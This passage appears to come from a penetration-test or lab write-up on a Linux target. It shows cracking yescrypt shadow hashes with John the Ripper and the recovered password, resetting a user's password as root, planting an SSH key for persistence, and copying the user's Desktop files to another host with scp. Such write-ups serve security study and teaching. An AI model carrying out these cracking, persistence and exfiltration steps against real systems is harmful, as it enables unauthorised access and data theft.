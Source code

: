 ![image](https://github.com/user-attachments/assets/0dd524a9-b186-4d10-b349-039c51d62dab)

#### 4.1.2 John the Ripper 

Towards cracking the user hashes, the requirements are simple, combo file (passwd+shadow) and a wordlist. The command must use the flag “--format=crypt” since the hashing algorithm is “Yescrypt” otherwise no hashes will be loaded, the command follows the subsequent syntax.

```bash
john.exe --format=crypt --wordlist=rockyou.txt PsShCombo.txt
```

![image](https://github.com/user-attachments/assets/2be9340a-7587-4d1e-81a3-db261927d1c1)

After a while the cracking tool should output peter’s password “qwertyuio”.

### 4.2 Altering the user password remotely

The team began by login in as “smith1” a user with root privileges and changing the password of user “peter”

![image](https://github.com/user-attachments/assets/d32d09aa-bffa-495d-a9bc-8c4ec4f1e13d)

## 5. Maintaining Access 
Towards maintaining persistent access, the team generated an ssh-rsa key and copied it to the targeted machine under the user “peter”. 

![image](https://github.com/user-attachments/assets/30a2ad2f-99c7-440d-8b39-f67a4c2855fe)

Checking if file was successfully created.

![image](https://github.com/user-attachments/assets/9e5c5cf0-3ff7-4f8f-810f-99541c491c43)

After this effort, the attacker can login without having to provide a password.

![image](https://github.com/user-attachments/assets/9f8d4a31-a452-4f6d-ae37-ebbcef76b852)

## 6. Exfiltration of files (Tasks)
After locating the target’s home directory, all the files from “/home/peter/Desktop/” were transferred recursively via scp, for further analysis. Consider the following syntax and figure.

```bash
scp -r /local/directory remote_username@10.0.2.15:/remote/directory
```

![image](https://github.com/user-attachments/assets/014eed93-c59f-4ce7-87a2-d519da420330)

From our newly gained access to the system, we discovered 4 files on the desktop, these being an unnamed text document, an image, a PCAP file and an unknown binary file named with what at first appeared to be gibberish.

In the subsequent sections the team will address each file individually and provide insight.
